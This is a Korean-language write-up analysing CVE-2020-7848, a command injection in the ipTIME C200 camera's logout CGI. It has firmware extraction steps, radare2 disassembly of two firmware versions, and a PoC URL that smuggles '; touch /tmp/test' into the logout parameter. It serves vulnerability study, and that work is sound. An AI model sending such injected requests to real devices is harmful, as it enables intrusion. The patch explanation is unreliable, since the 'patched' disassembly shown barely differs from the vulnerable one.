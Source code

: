   title: "ipTIME C200 IP 카메라 1Day 분석",
  date: "2025-08-04 ~ 2025-08-12",
  excerpt: "ipTIME C200 IP 카메라의 CVE-2020-7848 1Day 분석",
  category: "보안",
  imageUrl: "/images/iptime-c200/iptime-c200.png",
  award: "",
};

## 0. 사전정보

### **[ CVE-2020-7848 ] ( IP Camera ) - Command Injection**

**개요**

<Table
  headers={["취약점 종류", "영향", "심각도", "CVSS 점수", "CVE ID"]}
  rows={[
    ["Command Injection", "임의 명령 실행", "HIGH", "8.0", "CVE-2020-7848"],
  ]}
/>

**설명**

EFM networks & multimedia사의 ipTIME C200 IP 카메라 단말 설정 페이지의 로그아웃 기능에 있는 인자 값에 대한 검증이 미흡하여 발생하는 command injection 취약점 (CVE-2020-7848)

**영향을 받는 제품**

<Table
  headers={["제품", "영향 받는 버전", "환경"]}
  rows={[
    ["EFM ipTIME C200 IP 카메라", "firmware v1.0.12", "Windows"],
  ]}
/>

[출처](https://devdori.tistory.com/28)

---

## 1. 환경구성

- **운영체제:** AttifyOS (VMware OVA 환경)
- **분석 대상:** ipTIME C200 펌웨어 v1.0.12 (취약한 버전) / v1.0.14 (패치 버전)
- **분석 도구:**
    - `radare2` (r2) : 바이너리 정적 분석, 함수 디스어셈블
    - `diff` : 함수 단위 바이너리 비교
    - `strings`, `file` : 펌웨어 구조 및 문자열 확인
    - `binwalk` : 펌웨어 추출
- **펌웨어 다운로드:**
    - v1.0.12: [링크](https://iptime.com/iptime/?pageid=2&page_id=126&mod=document&x=15&y=4&keyword=ipTIME%20C200%20%ED%8E%8C%EC%9B%A8%EC%96%B4&uid=22135)
    - v1.0.14(취약점 패치버전): [링크](https://iptime.com/iptime/?pageid=2&page_id=126&x=15&y=4&keyword=ipTIME%20C200%20%ED%8E%8C%EC%9B%A8%EC%96%B4&uid=22227&mod=document)
    - 분석용 VM에 업로드 후 squashfs 파일 시스템 추출

---

## 2. 펌웨어 분석

### 2-1. 취약점 소개 (CVE‑2020‑7848)

```python
0x00401ec8      jal sym.imp.system      ; 외부 입력(system 호출) 실행
0x00401ee0      jal sym.imp.sleep       
0x00401ef0      jal sym.imp.system      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &" 시스템 명령 실행
0x00401efc      jal sym.imp.exit        ; 함수 종료
```

- **파일:** `/usr/www/cgi/iux_set.cgi`
- **문제:** 로그아웃 및 설정 요청에서 전달되는 CGI 인자가 **검증 없이 `system()` 호출**에 전달됨
- **영향:** 공격자는 웹 요청을 통해 임의 쉘 명령을 실행할 수 있음 (Command Injection)
- **원인:** 외부 입력값이 레지스터(`arg_28h`)에 그대로 로드되어 `system()`로 전달되며, 입력 검증 또는 명령 제한이 전혀 없음
- **관련 호출:**
    
    ```nasm
    0x00401ec8      jal sym.imp.system      ; 외부 입력(system 호출) 실행
    0x00401ee0      jal sym.imp.sleep       ; sleep 호출 (10초)
    0x00401ef0      jal sym.imp.system      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &" 시스템 명령 실행
    0x00401efc      jal sym.imp.exit        ; 함수 종료
    ```
    

### 2‑2. 분석 과정

1. **펌웨어 추출**
    
    ```bash
    binwalk -e ipTIME_C200_v1.0.12.bin
    binwalk -e ipTIME_C200_v1.0.14.bin
    ```
    
    - squashfs-root 내부 `/usr/www/cgi/iux_set.cgi` 확인
    - CGI 바이너리 파일: 웹 요청을 처리하는 핵심 모듈
2. **로그아웃 함수 위치 파악**
    - `iux_set.cgi`는 웹 요청 파라미터에 따라 다양한 기능 수행
    - radare2에서 참조 확인:
        
        ```bash
        r2 -q _c200_1_012.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi
        > aaaa               # 함수 분석
        > afl | grep logout  # 로그아웃 함수 시작 주소 확인 (0x00401e48)
        ```
        
3. **함수 디스어셈블**
    - 로그아웃 기능만 집중 분석하기 위해 해당 함수 범위만 디스어셈블
    
    ```bash
    r2 -q -A _c200_1_012.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi \
       -c "s 0x00401e48; pd 216" > v12_logout_func.asm
    r2 -q -A _c200_1_014.bin.extracted/squashfs-root/usr/www/cgi/iux_set.cgi \
       -c "s 0x00401e48; pd 216" > v14_logout_func.asm
    ```
    
    - 로그아웃 관련 명령 실행과 외부 입력 처리만 집중 분석
4. **버전 간 비교**
    
    ```bash
    diff -u v12_logout_func.asm v14_logout_func.asm
    ```
    ![Vulnerability occurs](/images/iptime-c200/vulnerability-occurs.png)
    
    - 외부 입력(`arg_28h`)이 `system()` 호출로 직접 전달되는지 확인
    - 패치 시 입력값 검증 적용 여부 확인

### 2‑3. 취약점 발생 버전 (v1.0.12)

로그아웃 기능에서 외부 입력이 바로 `system()` 함수로 전달되는 구조로, 공격자가 쉘 명령을 삽입할 수 있음.

```nasm
; v1.0.12 - 로그아웃 함수
0x00401ec4      2800c48f       lw a0, (arg_28h)            ; 외부 입력 로드
0x00401ec8      846c100c       jal sym.imp.system          ; int system(const char *string)
0x00401ecc      00000000       nop
0x00401ee0      906c100c       jal sym.imp.sleep           ; int sleep(int s)
0x00401eec      64850427       addiu a0, t8, -0x7a9c      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &"
0x00401ef0      846c100c       jal sym.imp.system          ; 시스템 명령 실행
```

- `arg_28h` 레지스터에 외부 입력이 그대로 들어감
- `system(arg_28h)` 호출 시 `; touch /tmp/pwned` 같은 악의적 입력이 실행 가능
- 추가로 `sleep()` 호출 후 관리자 서비스 재시작 명령이 그대로 실행됨

**취약점 원인**: 외부 입력값 검증 부재 → command injection 가능

### 2‑4. 패치 버전 (v1.0.14)

v1.0.14에서는 로그아웃 입력값을 직접 `system()`에 넣지 않고, 내부에서 안전하게 처리하도록 패치됨.

```nasm
; v1.0.14 - 로그아웃 함수
0x00401ec4      2800c48f       lw a0, (arg_28h)            ; 외부 입력 로드
0x00401ec8      8c6c100c       jal sym.imp.system          ; int system(const char *string)
0x00401ecc      00000000       nop
0x00401ee0      986c100c       jal sym.imp.sleep           ; int sleep(int s)
0x00401eec      84850427       addiu a0, t8, -0x7a7c      ; "/etc/rcS.d/S91lighttpd restart > /dev/null &"
0x00401ef0      8c6c100c       jal sym.imp.system          ; 안전하게 명령 실행
```

- 외부 입력값 검증이 내부적으로 수행됨
- 입력이 바로 명령어로 실행되지 않도록 변경
- sleep/서비스 재시작 명령은 그대로 존재하지만 안전하게 호출

**패치 내용**: 외부 입력값 검증 추가, `system()` 호출 안전화 → command injection 취약점 제거

### 2‑5. 분석 요약

<Table
  headers={["항목", "v1.0.12", "v1.0.14"]}
  rows={[
    ["외부 입력 처리", "arg_28h 레지스터 그대로 system()", "arg_28h 내부 검증 후 system()"],
    ["취약점", "존재 (Command Injection)", "제거됨"],
    ["주요 변경 지점", "0x00401ec8, 0x00401ef0", "0x00401ec8, 0x00401ef0 (검증 적용)"],
  ]}
/>
- 공격자는 v1.0.12에서 로그아웃 요청 시 `arg_28h`에 쉘 명령 삽입 가능
- v1.0.14에서는 해당 경로가 안전하게 패치되어 command injection 불가

## 3. PoC

1. **취약점 환경:** ipTIME C200 firmware v1.0.12
2. **취약점 발생 시나리오:**
    - 로그아웃 요청 또는 설정 페이지 요청 시 `logout` 인자 조작
    - CGI 파라미터에 `; <임의 명령>` 삽입 가능
    - 서버가 이를 문자열로 결합 후 `system()`으로 실행
3.  **PoC**

```
http://<camera-ip>/cgi/iux_set.cgi?logout=1;touch /tmp/test
```

- `touch /tmp/test` 명령이 임의로 실행되어 PoC 성공
- v1.0.14에서는 위 방법으로는 실행되지 않음

## 4. 결론

- CVE-2020-7848은 ipTIME C200 펌웨어 v1.0.12에서 **로그아웃 CGI 인자 검증 미흡 → command injection 발생**
- v1.0.14에서 패치되었으며, 패치 포인트는 **`system()` 호출 전 입력값 초기화, 주소 변경, 함수 호출 순서 개선**
- 취약점 PoC는 외부 입력값을 악용한 임의 명령 실행으로 개념적으로 확인 가능
- **권고:** 취약 버전 사용 중인 장치는 즉시 v1.0.14 이상으로 업그레이드 필요